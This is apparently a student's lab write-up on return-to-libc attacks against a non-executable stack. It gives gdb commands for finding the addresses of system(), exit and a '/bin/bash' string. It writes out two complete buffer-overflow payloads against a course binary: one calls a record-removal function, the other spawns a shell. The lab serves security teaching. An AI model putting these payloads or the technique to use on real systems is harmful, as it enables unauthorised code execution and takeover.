# Attacking Non-executable Stack



## Return to Libc Attack:



## Launching the Attack Steps:


### Task A: Finding system() address


* we must run the program in the debug mode using gdb
* then we perform run command
* then we look for the system addres:
    > gdb programName

    > run

    > p system

### Task B: Finding the address of the string "bin/sh"




* Following all the instructions given you I got these results: 
    * 

### TASK C: Launching the return-to-libc attack: 


#### Function Prologue



#### Function Epilogue



#### Back to the main task



#### Lets see how to construct malicious input: 
* 

* On following the instructions I got these results: 
    * 

#### Writing python script to create our malicious input file: 

## Coming to our Lab
### Task 3.1: 
* To be able to bypass the password, we can check the address of the exmatriculate function from gdb
    - 
* so we can see it is **0x0804b0bb**
* then using the same code as before we can just modify the return address to be this address, and we can see that the pointer will return to the function. 
    - 
* now the problem will be to send the parameters correctly because we only jump to the function, however its parameters are not loaded.
* in order to do so we must understand the structure of the stack at this point
    - payload
    - return address of the function -> exmatriculate
    - dummy return address after it finishes excution.
    - the parameters which should be our id in this case.
* So our goal now is to craft our payload in such way that we construct this successfuly, so it should be as follows: 
    - nop sled
    - base pointer address
    - exmatriculate address
    - dummy address to be excuted after finishing exmatriculate
    - our id address.
* base pointer address is: **0xffffc888**
* exmatriculate address is: **0x0804b0a8**
* exit address is: **0xf7b51460**
* Student id memory location: **0x08057d50**
* BTU object address is: **0x08050de0**
* this is my payload: gdb --gdb --args ./build/bin/btu remove 1782914303 $(echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x88\xc8\xff\xff\xa8\xb0\x04\x08\x60\x14\xb5\xf7\xe0\x0d\x05\x08\xff\x1c\x45\x6a")
* you can find the code which generates this payload at: **Buffer_Overflow/task_3_writeup.md**

* and now we can see that we already removed the student.


### Task 3.2: 
* now its time to see what attacker can do further: 

* we want to excute the system function () and to send as argument **bin/bash** in order to open the terminal to have a full access on the victim device. 

* in order to do so we need the following: 
    - system function address
    - exit address 
    - bin/bash address -> this is the tricky part here 
* to get the bin/bash address we need to place it in the enviroment variables and use this command to get its address:
    > x/50s *((char **)environ)

    - 0xffffcccf:     "SHELL=/bin/bash" -> this is my result
* before so we must excute these commands to put it in the enviroment variable: 
    > export SHELL=/bin/bash
* to get the address of **system() function** we should use this command: 
    > p system
    
    - pwndbg> p system 
    - $1 = {int (const char *)} 0xf7b5f170 <__libc_system>
* we have the address of exit from the previous task: **0xf7b51460**
* now we are ready to build the payload:
    - nop sled * 48
    - original ebp
    - address system
    - address of exit 
    - address of "/bin/bash" string
* so this should be the command to be excuted: 
    -  > python task3_part2_payload_generator.py 
    -  > gdb --args ./build/bin/btu remove 1024 $(echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x88\xc8\xff\xff\x70\xf1\xb5\xf7\x60\x14\xb5\xf7\xd7\xcc\xff\xff")
# ems7 el 7eta de abl mtru7 el mon2sha w efhm leh el shell msh stable. 
> e3ml run mrten wra b3d 34an yeft7lk shell     
-  > r
-  > r
- 

* so we can see now that we got a terminal, and on running **whoami** i got the result **abdelazizsalah**
    - 
